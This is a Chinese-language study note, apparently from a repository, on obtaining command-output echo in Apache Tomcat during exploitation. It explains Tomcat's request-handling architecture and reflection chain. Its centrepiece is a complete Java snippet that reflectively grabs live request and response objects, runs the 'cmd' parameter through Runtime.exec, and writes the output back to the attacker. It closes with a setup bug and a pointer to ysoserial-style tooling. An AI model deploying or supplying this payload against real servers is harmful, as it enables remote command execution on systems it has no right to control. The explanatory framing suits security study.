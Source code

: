 # tomcat回显问题

	

tomcat 寻找通用回显

### 机构图基础知识

**Server**:整个tomcat启动的时候只有一个server

**Service**:一个server中包含了多个service,表示服务

**Container**:容器,可以看作是一个servlet容器,包含一些Engine,Host,Context,Wraper等,访问的路径什么的就存放在这里

* Engine -- 引擎
* Host -- 主机
* Context -- 上下文(也就是应用程序)
* Wrapper -- 包装器  
  **Connector**:连接器,将service和container连接起来,作用就是把来自客户端的请求转发到container容器

**Connector**内部的组件:

* Endpoint-用于网络监听
* Processor-用于协议解析处理
* Adapter-用于转换，解耦connector和container

假设来自客户的请求为：http://localhost:8080/test/index.jsp 请求被发送到本机端口8080，被在那里侦听的Connector组件捕获:

* Connector把该请求交给它所在的Service的Engine来处理，并等待Engine的回应
* Engine获得请求localhost:8080/test/index.jsp，匹配它所有虚拟主机Host
* Engine匹配到名为localhost的Host(即使匹配不到也把请求交给该Host处理，因为该Host被定义为该Engine的默认主机)
* localhost Host获得请求/test/index.jsp，匹配它所拥有的所有Context
* Host匹配到路径为/test的Context(如果匹配不到就把该请求交给路径名为""的Context去处理)
* path\="/test"的Context获得请求/index.jsp，在它的mapping table中寻找对应的servlet
* Context匹配到URL PATTERN为\*.jsp的servlet，对应于JspServlet类，构造HttpServletRequest对象和HttpServletResponse对象，作为参数调用JspServlet的doGet或doPost方法
* Context把执行完了之后的HttpServletResponse对象返回给Host
* Host把HttpServletResponse对象返回给Engine
* Engine把HttpServletResponse对象返回给Connector
* Connector把HttpServletResponse对象返回给客户browser

## 回显方法

本质是寻找Http11Processor类    回显的本质都是找到处理继承了http请求的类  将回显写入到里边

例如 AbstractProcessor类是tomcat中用来处理http请求逻辑的类

这里共有两个request类 分别为 `org.apache.catalina.connector.Request`​ 和`org.apache.coyote.Request`​

‍

只要获取到了Http11Processor或者AbstractProcessor即可以获取org.apache.catalina.connector.Request

AbstractProtocol\$ConnectionHandler类中存在Http11Processor

RequestInfo rp \= processor.getRequest().getRequestProcessor()作用是org.apache.coyote.Request对象

rp.setGlobalProcessor(this.global);-----》RequestGroupInfo.addRequestProcessor---->CoyoteAdapter中的connector存在protocolHandler字段

ProtocolHandler是一个接口

AbstractProtocol也实现了ProtocolHandler接口

‍

‍

总体调用链如下

connector----》AbstractProtocol\$ConnectoinHandler-----》RequestGroupInfo(global)—————》RequestInfo---->Request--->Response--->`org.apache.catalina.core.StandardService.addConnector`​

‍

‍

## 环境搭建

```JAVA
org.apache.catalina.loader.WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
        org.apache.catalina.core.StandardContext standardContext = (StandardContext) webappClassLoaderBase.getResources().getContext();

        try {
            Field context = Class.forName("org.apache.catalina.core.StandardContext").getDeclaredField("context");
            context.setAccessible(true);
            ApplicationContext ApplicationContext = (ApplicationContext)context.get(standardContext);
            
            Field service = Class.forName("org.apache.catalina.core.ApplicationContext").getDeclaredField("service");
            service.setAccessible(true);
            org.apache.catalina.core.StandardService standardService = (StandardService) service.get(ApplicationContext);
            
            Field connectors = standardService.getClass().getDeclaredField("connectors");
            connectors.setAccessible(true);
            Connector[] connector = (Connector[]) connectors.get(standardService);
            
            Field protocolHandler = Class.forName("org.apache.catalina.connector.Connector").getDeclaredField("protocolHandler");
            protocolHandler.setAccessible(true);
            
            Class<?>[] declaredClasses = Class.forName("org.apache.coyote.AbstractProtocol").getDeclaredClasses();
            
            for (Class<?> declaredClass : declaredClasses) {

                if (declaredClass.getName().length()==52){
                    
                    java.lang.reflect.Method getHandler = org.apache.coyote.AbstractProtocol.class.getDeclaredMethod("getHandler",null);
                    getHandler.setAccessible(true);
                    
                    Field global = declaredClass.getDeclaredField("global");
                    global.setAccessible(true);
                    org.apache.coyote.RequestGroupInfo requestGroupInfo = (RequestGroupInfo) global.get(getHandler.invoke(connector[0].getProtocolHandler(), null));

                    Field processors = Class.forName("org.apache.coyote.RequestGroupInfo").getDeclaredField("processors");
                    processors.setAccessible(true);
                    java.util.List<org.apache.coyote.RequestInfo>  requestInfo = (List<RequestInfo>) processors.get(requestGroupInfo);
                    Field req1 = Class.forName("org.apache.coyote.RequestInfo").getDeclaredField("req");
                    req1.setAccessible(true);

                    for (RequestInfo info : requestInfo) {

                        org.apache.coyote.Request request = (Request) req1.get(info);

                        org.apache.catalina.connector.Request request1 = (org.apache.catalina.connector.Request) request.getNote(1);
                        
                        org.apache.catalina.connector.Response response = request1.getResponse();

                        String cmd = request1.getParameter("cmd");
                        InputStream is = Runtime.getRuntime().exec(cmd).getInputStream();
                        BufferedInputStream bis = new BufferedInputStream(is);
                        int len;
                        while ((len = bis.read())!=-1){
                            response.getWriter().write(len);
                        }
                    }
                }
            }

        } catch (NoSuchFieldException e) {
            e.printStackTrace();
        } catch (IllegalAccessException | ClassNotFoundException e) {
            e.printStackTrace();
        } catch (NoSuchMethodException e) {
            e.printStackTrace();
        } catch (InvocationTargetException e) {
            e.printStackTrace();
        }
```

‍

‍

问题

‍

tomcat一直报500错误

在我的代码中getresource代码如下

```JAVA
public WebResourceRoot getResource(){
return null
}
```

流程代码应该返回resource

‍

搜了以下不同tomcat版本不同

```public
public WebResourceRoot getResource(){
return this.resource

}
```

这样才行

‍

### 总结

发现在java-chains 和ysel中已经有写好的相关内容 可以直接调用来利用tomcat回显写在响应头中

 本次主要是调试链子和理解原理  耗时主要在搭建环境出错的问题上

在thundermail环境中 可以直接利用相关yse 输出到tomcat回显
